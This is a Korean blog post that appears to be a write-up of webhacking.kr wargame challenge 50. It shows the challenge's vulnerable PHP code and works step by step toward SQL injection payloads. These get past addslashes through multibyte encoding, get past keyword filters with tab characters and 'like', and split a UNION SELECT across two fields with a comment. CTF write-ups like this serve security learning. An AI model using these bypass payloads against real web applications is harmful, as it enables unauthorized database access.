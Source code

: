 ```yaml
---
title: "[webhacking.kr] 50번 문제 풀이[sql injection]"
categories:
  - webhacking
tags:
  - webhacking.kr
  - wargame
  - sql injection
toc: true
toc_sticky: true
toc_label: "50번 문제 풀이"
toc_icon: "bookmark"
author_profile: true
header:
  teaser: /assets/images/webhacking.jpg
---
```


💡 Webhacking.kr challenge(old) 50번 문제에 대한 풀이입니다.
{: .notice--warning}

# 문제
  ![image](https://user-images.githubusercontent.com/33647663/152800629-e4705d63-a9d3-4697-b4b0-62419191d9f5.png)

  ```php
<?php
  if($_GET['id'] && $_GET['pw']){
    $db = dbconnect();
    $_GET['id'] = addslashes($_GET['id']); 
    $_GET['pw'] = addslashes($_GET['pw']);
    $_GET['id'] = mb_convert_encoding($_GET['id'],'utf-8','euc-kr');
    foreach($_GET as $ck) if(preg_match("/from|pw|\(|\)| |%|=|>|</i",$ck)) exit();
    if(preg_match("/union/i",$_GET['id'])) exit();
    $result = mysqli_fetch_array(mysqli_query($db,"select lv from chall50 where id='{$_GET['id']}' and pw=md5('{$_GET['pw']}')"));
    if($result){
      if($result['lv']==1) echo("level : 1<br><br>");
      if($result['lv']==2) echo("level : 2<br><br>");
    } 
    if($result['lv']=="3") solve(50);
    if(!$result) echo("Wrong");
  }
?>
  ```

# 문제 풀이
  injection을 해야하는 sql 문 부터 보면 다음과 같습니다.

  ```sql
select lv from chall50 where id='{}' and pw=md5('{}')
  ```

  우선 GET['id']의 경우 addslashes() 함수 이후에 mb_convert_encoding함수를 사용하여 UTF-8로 인코딩을 바꿔줬기 때문에 multibyte encoding을 이용하여 addslashes() 함수를 우회할 수 있습니다. 이를 이용해서 id에 익젝션을 수행할 쿼리문을 작성합니다.

  ```sql
id=%aa' or lv=3--%20
  ```

  쿼리문에서 문제에서 preg_match로 필터링 하는 문자를 우회하도록 바꿔줍니다. 
  
  **공백 -> %09** , **= -> like**

  ```sql
id=%aa'%09or%09lv%09like%093--%09
  ```

  쿼리문을 수행해 봤더니 다음과 같이 안됩니다.

  ![image](https://user-images.githubusercontent.com/33647663/152801787-2c8a9cb4-49b3-4aed-afb8-949597d16116.png)

  혹시 테이블에 lv=3인 데이터가 없는지 확인해 보기 위해서 like 3 을 like 2로 바꿔서 해봤더니 like 2 는 성공적으로 수행됩니다.
  
  ![image](https://user-images.githubusercontent.com/33647663/152802015-6ad5c2d4-4750-4056-a11f-d3f766c88cf7.png)


  즉, 테이블에 lv = 2인 데이터는 있기 때문에 나온 것이고 lv=3인 데이터는 없기 때문에 안나온 것입니다.

  테이블에 데이터가 없기 때문에 **union select** 구문을 이용해야 합니다.

  하지만 이번 문제에서 가장 까다로운 조건이 하나 붙어 있었습니다. 다음 조건 때문에 id에는 union을 사용할 수 없었습니다.

  ```php
if(preg_match("/union/i",$_GET['id'])) exit();
  ```

  그렇기 때문에 pw를 통해서 union select 구문을 수행시켜야 합니다.

  이번 문제를 풀기위한 아이디어는 **주석**을 사용하는 것입니다. 다음과 같이 id 와 pw 사이에 ```/* */```를 끼워 넣습니다.

  ```sql
select lv from chall50 where id='%aa'/* and pw=md5('*/')
  ```
   
  그러면 pw 쪽에서 ```'```가 지워지기 때문에 쿼리문을 작성할 수 있습니다.

  - id : %aa'/*
  - pw : */union%09select%093%23

  위와 같이 쿼리문을 만들어서 서버로 전송하면 다음과 같이 문제가 클리어 됩니다.
  
![image](https://user-images.githubusercontent.com/33647663/152832453-87bd0d8c-fef7-4bbd-a180-11b7ea30e04e.png)